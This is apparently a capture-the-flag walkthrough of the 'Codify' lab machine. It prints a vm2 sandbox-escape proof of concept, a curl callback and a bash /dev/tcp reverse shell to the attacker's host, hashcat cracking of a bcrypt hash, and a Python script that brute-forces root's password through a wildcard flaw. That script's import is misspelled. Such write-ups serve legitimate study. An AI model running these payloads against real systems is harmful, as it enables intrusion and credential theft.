





## Enumeration
Initial nmap:
```
Nmap scan report for 10.129.156.196
Host is up (0.041s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.91 seconds
```
On port 80, we are redirected to `codify.htb`. Note that port 3000 also details that this is a `Node.js` framework. First, we must add codify to our /etc/hosts file:
```
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts        
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.129.156.196 codify.htb
```

### Enumerating port 80 web service
When we visit the webpage on port 80, we see this is a node.js sandbox. This already sounds very dangerous, as we can supply whatever code we want and, if it is poorly sanitized, we might "break out" of the sandbox and execute shell commands on the system.



Common [sandbox escapes for Node.js](https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/) make use of `child_process` or `fs`. However, when we follow the `limitations` link, we can see that these are the two modules that are blacklisted:



Someone very familiar with node.js might be able to craft their sandbox escape from scratch. I, however, am not. When reading the About section, we learn that this sandbox is utilizing a public github project [vm2](https://github.com/patriksimek/vm2/). 



In the project's Readme, we can see a notice that the project has known critical vulnerabilities, and has been abandoned with the issues unresolved.



Under the github project's `Security` tab, we can find multiple sandbox escape issues, all unresolved:


When viewing these articles on sandbox escapes, we can find several with proof-of-concept links attached. 

Choosing the first one, I find [this POC script](https://gist.github.com/leesh3288/e4aa7b90417b0b0ac7bcd5b09ac7d3bd):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
const customInspectSymbol = Symbol.for('nodejs.util.inspect.custom');

obj = {
    [customInspectSymbol]: (depth, opt, inspect) => {
        inspect.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
    },
    valueOf: undefined,
    constructor: undefined,
}

WebAssembly.compileStreaming(obj).catch(()=>{});
`;

vm.run(code);
```

When I run the script, Promise is shown, suggesting the script is likely working.



Since I can't confirm the pwned file, I will use a `curl` command directed at my kali machine. If the command is being executed, I should receive a connection request.
Setting up nc listener:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
```
Editing the node.js code:
```
inspect.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.134');
```
After running, I see a connection request:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.156.196] 35394
GET / HTTP/1.1
Host: 10.10.14.134
User-Agent: curl/7.81.0
Accept: */*
```
With a valid connection, I just need to craft a simple reverse shell. Using [revshells](https://www.revshells.com/):
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.134/80 0>&1"
```
Now on my listener, I have a reverse shell connection:
```
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 80        
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.156.196] 37898
bash: cannot set terminal process group (1236): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ whoami
whoami
svc
```
The shell is currently unstable, and inputs such as ctrl+C will kill my nc process, ending the reverse shell. To stabilize, I use `script`:
```
svc@codify:~$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
```
Next, background the shell with ctrl+Z, and use `stty`:
```
svc@codify:~$ ^Z
zsh: suspended  nc -nvlp 80

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 80

svc@codify:~$ 
```
Now the shell is stabilized, and we can enjoy luxuries such as autocomplete, the ability to ^C without breaking our shell, and the command echoing is gone.
## Lateral Movement
### Acquiring passwords in database file
When enumerating the file system, we find that /var/www has interesting information. There is a contact folder:
```
svc@codify:/var/www$ ls -al
total 20
drwxr-xr-x  5 root root 4096 Sep 12 17:40 .
drwxr-xr-x 13 root root 4096 Oct 31 07:57 ..
drwxr-xr-x  3 svc  svc  4096 Sep 12 17:45 contact
drwxr-xr-x  4 svc  svc  4096 Sep 12 17:46 editor
drwxr-xr-x  2 svc  svc  4096 Apr 12  2023 html
```
Although we never interacted with it externally, we can find an interesting database file within contact:
```
svc@codify:/var/www/contact$ ls
index.js  package.json  package-lock.json  templates  tickets.db
svc@codify:/var/www/contact$ file tickets.db 
tickets.db: SQLite 3.x database, last written using SQLite version 3037002, file counter 17, database pages 5, cookie 0x2, schema 4, UTF-8, version-valid-for 17
```
If the ticket database had been large, it would be best to transfer the file to our local kali machine to access properly. We can do this with a python simple http server:
```
svc@codify:/var/www/contact$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
with the server open, just `wget` from kali, making sure you match the port specified:
```
┌──(kali㉿kali)-[~/Documents/codify]
└─$ wget http://codify.htb:8000/tickets.db                                          
--2023-11-05 12:19:41--  http://codify.htb:8000/tickets.db
Resolving codify.htb (codify.htb)... 10.129.156.196
Connecting to codify.htb (codify.htb)|10.129.156.196|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 20480 (20K) [application/octet-stream]
Saving to: ‘tickets.db.1’

tickets.db                   100%[==============================================>]  20.00K  --.-KB/s    in 0.05s   

2023-11-05 12:19:41 (424 KB/s) - ‘tickets.db.1’ saved [20480/20480]
```
This is where stabilizing the reverse shell comes in handy. The http server will run indefinitely, until we kill it. If we had not stabilized, we would instead be killing our reverse shell:
```
svc@codify:/var/www/contact$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.134 - - [05/Nov/2023 17:19:48] "GET /tickets.db HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
svc@codify:/var/www/contact$ 
```
Since this database is small and "easy" to read, we can just cat the contents out directly:
```
svc@codify:/var/www/contact$ cat tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)�� tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
<...SNIP..>
```
We can rather plainly see credentials here as username `joshua` and a password hash of `$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`. Note that we can enumerate joshua as a user on this box by checking /etc/passwd:
```
svc@codify:/var/www/contact$ grep joshua /etc/passwd
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
```
As for cracking the password, we can use either `johntheripper` or `hashcat`. While john will automatically identify the hash type as bcrypt, for hashcat you must specify.
```
$ hashcat -m 3200 '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' /usr/share/wordlists/rockyou.txt
hashcat (v6.2.5) starting

<...SNIP...>

$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2
Time.Started.....: Sat Nov  4 16:01:50 2023 (23 secs)
Time.Estimated...: Sat Nov  4 16:02:13 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/best64.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       47 H/s (7.27ms) @ Accel:16 Loops:8 Thr:11 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1056/1104517568 (0.00%)
Rejected.........: 0/1056 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:5-6 Iteration:4088-4096
Candidate.Engine.: Device Generator
Candidates.#1....: 1234561 -> chicken1
Hardware.Mon.#1..: Temp: 59c Fan: 31% Util:100% Core:1316MHz Mem:3004MHz Bus:16

Started: Sat Nov  4 16:01:44 2023
Stopped: Sat Nov  4 16:02:14 2023
```

We have credentials as `joshua:spongebob1`. Using these credentials, we can authenticate via ssh:
```
┌──(kali㉿kali)-[~/Documents/codify]
└─$ ssh joshua@codify.htb
joshua@codify.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

<...SNIP...>
joshua@codify:~$
```
## Privilege Escalation
### Abusing wildcard matching to brute force password
Checking sudo privileges:
```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
We are allowed to run a script as root. Depending on what we have control over, we might be able to achieve command execution as root. Reading the script:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
The script will perform a backup as root. In the first section, we can see it stores a root cred as `DB_PASS`, then reads our input to compare the two strings. If they match, the backup proceeds. After tinkering with it for some time, I learn that entering a wildcard `*` will return a True value, suggesting the passwords match.
```
joshua@codify:~$ echo '*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
<...SNIP...>
```
By abusing this wildcard, we can guess 1 letter at a time in the format of `<letter>*`. If the letter is correct, we will pass the check. For example, we can determine the first letter is `k` manually:
```
joshua@codify:~$ echo 'j*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmation failed!
joshua@codify:~$ echo 'k*' | sudo /opt/scripts/mysql-backup.sh 

Password confirmed!
```
Now we know the first letter, we can begin guessing the second letter. Since this is a very tedious process, automation is pretty much necessary. To get the job done "quickly", i took 10 seconds to write down a rudimentary script in bash:
```bash
for i in {a..z}
do
    echo $i; echo "k$i*" | sudo /opt/scripts/mysql-backup.sh
done
```
I can see which character causes the success, then I have to manually insert it into the echo loop and run it again. When all letters failed, I had to try again using an uppercase letter range or a number range. It was very inefficient. I revisited later, and built a much better script using python:
```python
#!/usr/bin/env python3
import subprocesss
charset = 'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ ';

password = ""
guesscount = 0
LOOP = True
while LOOP:
    for c in charset:
        payload = password + c + "*"
        print(f"\r{password}{c}", end="",)
        p = subprocess.Popen(["sudo","/opt/scripts/mysql-backup.sh"], stdout=subprocess.PIPE, stdin=subprocess.PIPE, stderr=subprocess.PIPE, encoding='utf8')
        response = p.communicate(input=payload)[0]
        if "confirmed" in response:
            password = password + c
            guesscount = 0
        else:
            guesscount = guesscount + 1
    if guesscount >= len(charset):
        print(f"\n\nThe password is: {password}")
        break
```
Demonstrating the script:
```
joshua@codify:~$ ./brute.py 
kljh12k3jhaskjh12kjh3 

The password is: kljh12k3jhaskjh12kjh3
joshua@codify:~$ 
```
The password was long and nonsensical. Clearly something not fit for a manual approach.
This password is for root. We can log in with a simple `su`:
```
joshua@codify:~$ su
Password: 
root@codify:/home/joshua#
```
